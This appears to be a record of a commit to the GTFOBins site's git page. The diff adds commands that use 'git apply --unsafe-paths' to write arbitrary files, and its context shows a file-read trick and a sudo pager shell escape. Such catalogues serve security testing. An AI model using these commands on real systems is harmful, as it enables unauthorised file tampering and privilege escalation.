

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide and 1400 px high, scrolled down 667 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update git.md
Add file-write

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -26,6 +26,32 @@ functions:
       code: |
         LFILE=file_to_read
         git diff /dev/null $LFILE
+  file-write:
+    - description: Git apply writes to files specified in the patch when supplied with a directory and the flag `--unsafe-paths`. Patch file must be in the valid format.
+    - description: This creates a new file with two lines.
+      code: |
+        TF=$(mktemp -d)
+        LFILE=file_to_write
+        echo "--- /dev/null" > "$TF/temp.patch"
+        echo "+++ b$LFILE" >> "$TF/temp.patch"
+        echo "@@ -0,0 +1,2 @@" >> "$TF/temp.patch"
+        echo "+ line_1_content" >> "$TF/temp.patch"
+        echo "+ line_2_content" >> "$TF/temp.patch"
+        git apply "$TF/temp.patch" --directory / --unsafe-paths
+    - description: This removes a line from an existing file and adds a new line.
+      code: |
+        TF=$(mktemp -d)
+        LFILE=file_to_write
+        echo "--- a$LFILE" > "$TF/temp.patch"
+        echo "+++ b$LFILE" >> "$TF/temp.patch"
+        echo "@@ -1,4 +1,4 @@" >> "$TF/temp.patch"
+        echo " this is a test" >> "$TF/temp.patch"
+        echo " with multiple lines" >> "$TF/temp.patch"
+        echo "-this line will be removed" >> "$TF/temp.patch"
+        echo " this line will have another after" >> "$TF/temp.patch"
+        echo "+a new line" >> "$TF/temp.patch"
+        git apply "$TF/temp.patch" --directory / --unsafe-paths
+
   sudo:
     - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
     - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
```
